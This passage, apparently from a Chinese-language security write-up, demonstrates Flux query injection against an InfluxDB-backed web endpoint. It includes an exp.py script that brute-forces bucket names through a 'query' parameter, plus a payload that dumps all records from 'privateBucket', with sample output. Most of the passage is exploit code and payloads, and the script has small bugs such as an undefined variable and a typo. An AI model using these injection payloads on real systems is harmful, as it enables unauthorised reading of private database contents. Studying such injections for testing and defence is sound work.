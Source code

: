 [![](assets/1706957940-f62bcc0dfd977658ec04d77f6d5d82bf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201233810-e74d1470-c117-1.png)

```bash
可以看见返回了`privateBucket`这个 bucket，这个地方可以用 burp 爆
```

exp.py:

```bash
import requests
import string
url = "https://127.0.0.1:3000?query="
para1= " ") |> yield(name: "1337") buckets() |> filter(fn: (r) => r.name =~ /^{}.*/ and die(msg:r.name)) //"
s=''+string.ascii_letters
flag = sensitive_field
for i in range(0,52):
    for j in s:
        try:
            htmlLen = requests.get(url=url+para1.format(j)).text
        except:
            print(j)
        if flag in htmlLen:
            print(htmlLen,endd='')
            break
//为了让你们更加直观的看见 playload，所以这里没有进行编码，所以可能在 para1 处会报错。
```

#### 泄露 bucket 及其相关数据

前面已经有 bucket 的名称了，所以就直接 from

```bash
") |> yield(name: "1337") 
 from(bucket: "privateBucket") |> range(start: 0) |> filter(fn: (r) => die(msg:r)) 
 //
```

这里就是把`filter`中的`r`也就是匹配出来的所有东西都输出出来  
最终页面返回：

```bash
_value: B,
_time: time,
_stop: time,
_start: time,
_measurement: string,
_field: string
```
